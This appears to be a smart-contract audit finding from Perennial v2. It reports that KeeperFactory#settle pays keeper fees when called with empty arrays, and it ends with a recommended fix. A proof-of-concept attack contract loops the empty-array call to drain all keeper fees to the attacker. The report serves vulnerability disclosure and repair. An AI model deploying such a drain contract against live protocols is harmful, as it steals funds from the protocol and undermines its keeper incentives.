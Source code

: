Gorgeous Oily Salmon

high

# Attacker can call `KeeperFactory#settle` with empty arrays as input parameters to steal all keeper fees

## Summary
Anyone can call `KeeperFactory#request`, inputting empty arrays as parameters, and the call will succeed, and the caller receives a fee.

Attacker can perform this attack many times within a loop to steal ALL keeper fees from protocol.

## Vulnerability Detail
### Expected Workflow:

- User calls [`Market#update`](https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial/contracts/Market.sol#L80) to open a new position
- Market calls [`Oracle#request`](https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial/contracts/Market.sol#L369) to request a new oracleVersion
  - The User's account [gets added](https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/keeper/KeeperOracle.sol#L83) to a callback array of the market
- Once new oracleVersion gets [committed](https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/keeper/KeeperFactory.sol#L163), keepers can call [`KeeperFactory#settle`](https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/keeper/KeeperFactory.sol#L202), which will call [`Market#update`](https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/keeper/KeeperOracle.sol#L177) on accounts in the Market's callback array, and [pay](https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/keeper/KeeperFactory.sol#L204) the keeper(i.e. caller) a fee.
  - KeeperFactory#settle call [will fail](https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/keeper/KeeperOracle.sol#L137-L139) if there is no account to settle(i.e. if callback array is empty)
  - After [`settle`ing](https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/keeper/KeeperOracle.sol#L143) an account, it gets [removed](https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/keeper/KeeperOracle.sol#L144) from the callback array

### The issue:

Here is [KeeperFactory#settle](https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/keeper/KeeperFactory.sol#L202-L217) function:

```solidity
function settle(bytes32[] memory ids, IMarket[] memory markets, uint256[] memory versions, uint256[] memory maxCounts)
    external
    keep(settleKeepConfig(), msg.data, 0, "")
{
    if (
        ids.length != markets.length ||
        ids.length != versions.length ||
        ids.length != maxCounts.length ||
        // Prevent calldata stuffing
        abi.encodeCall(KeeperFactory.settle, (ids, markets, versions, maxCounts)).length != msg.data.length
    )
        revert KeeperFactoryInvalidSettleError();

    for (uint256 i; i < ids.length; i++)
        IKeeperOracle(address(oracles[ids[i]])).settle(markets[i], versions[i], maxCounts[i]);
}

```

As we can see, function does not check if the length of the array is 0, so if user inputs empty array, the for loop will not be entered, but the keeper still receives a fee via the `keep` modifier.

Attacker can have a contract perform the attack multiple times in a loop to drain all fees:

```solidity
interface IKeeperFactory{
    function settle(bytes32[] memory ids,IMarket[] memory markets,uint256[] memory versions,uint256[] memory maxCounts
    ) external;
}

interface IMarket(
    function update()external;
)

contract AttackContract{

    address public attacker;
    address public keeperFactory;
    IERC20 public keeperToken;

    constructor(address perennialDeployedKeeperFactory, IERC20 _keeperToken){
        attacker=msg.sender;
        keeperFactory=perennialDeployedKeeperFactory;
        keeperToken=_keeperToken;
    }

    function attack()external{
        require(msg.sender==attacker,"not allowed");

        bool canSteal=true;

        // empty arrays as parameters
        bytes32[] memory ids=[];
        IMarket[] memory markets=[];
        uint256[] versions=[];
        uint256[] maxCounts=[];

        // perform attack in a loop till all funds are drained or call reverts
        while(canSteal){
            try IKeeperFactory(keeperFactory).settle(ids,markets,versions,maxCounts){
                //
            }catch{
                canSteal=false;
            }
        }
        keeperToken.transfer(msg.sender, keeperToken.balanceOf(address(this)));
    }
}
```

## Impact
All keeper fees can be stolen from protocol, and there will be no way to incentivize Keepers to commitRequested oracle version, and other keeper tasks

## Code Snippet
https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/keeper/KeeperFactory.sol#L206-L212
## Tool used

Manual Review

## Recommendation
Within KeeperFactory#settle function, revert if `ids.length==0`:

```solidity
function settle(
    bytes32[] memory ids,
    IMarket[] memory markets,
    uint256[] memory versions,
    uint256[] memory maxCounts
)external keep(settleKeepConfig(), msg.data, 0, "") {
    if (
++++    ids.length==0 ||
        ids.length != markets.length ||
        ids.length != versions.length ||
        ids.length != maxCounts.length ||
        // Prevent calldata stuffing
        abi.encodeCall(KeeperFactory.settle, (ids, markets, versions, maxCounts)).length != msg.data.length
    ) revert KeeperFactoryInvalidSettleError();

    for (uint256 i; i < ids.length; i++)
        IKeeperOracle(address(oracles[ids[i]])).settle(markets[i], versions[i], maxCounts[i]);
}
```